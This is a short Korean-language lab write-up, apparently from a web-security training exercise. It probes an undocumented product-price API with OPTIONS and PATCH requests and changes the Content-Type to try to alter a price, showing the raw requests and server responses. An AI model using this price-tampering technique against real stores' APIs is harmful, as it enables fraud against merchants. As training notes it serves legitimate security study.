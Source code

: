 

# 3. [실무자] 사용되지 않는 API엔드포인트 찾기 및 활용

> PATCH 및 Content-Type 사용 하여 금액 변조

1. 제품 조회 url
```
/api/products/3/price
```

2. repeater, OPTIONS로 허용 메소드 확인 해보기 
```
//결과
HTTP/2 405 Method Not Allowed
Allow: GET, PATCH
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 20

"Method Not Allowed"
```

3. PATCH로 변경 후 전송 시도 
```
PATCH /api/products/1/price HTTP/2

// 결과
{"type":"ClientError","code":400,"error":"Only 'application/json' Content-Type is supported"}
```

4. Content-Type -> application/json 변경 시도
```
PATCH /api/products/1/price HTTP/2
Host: 0ab400ec0410e60780802b91007f00e5.web-security-academy.net
Cookie: session=Ge2dCN65xivsv8RzmDpqJnPEbncSgsYV
Sec-Ch-Ua: "Not_A Brand";v="8", "Chromium";v="120"
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.6099.71 Safari/537.36
Sec-Ch-Ua-Platform: "macOS"
Accept: */*
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://0ab400ec0410e60780802b91007f00e5.web-security-academy.net/product?productId=1
Accept-Encoding: gzip, deflate, br
Accept-Language: ko-KR,ko;q=0.9,en-US;q=0.8,en;q=0.7
Priority: u=1, i
Content-Type: application/json   => 삽입

// 결과
HTTP/2 500 Internal Server Error
Content-Length: 21

Internal Server Error
```
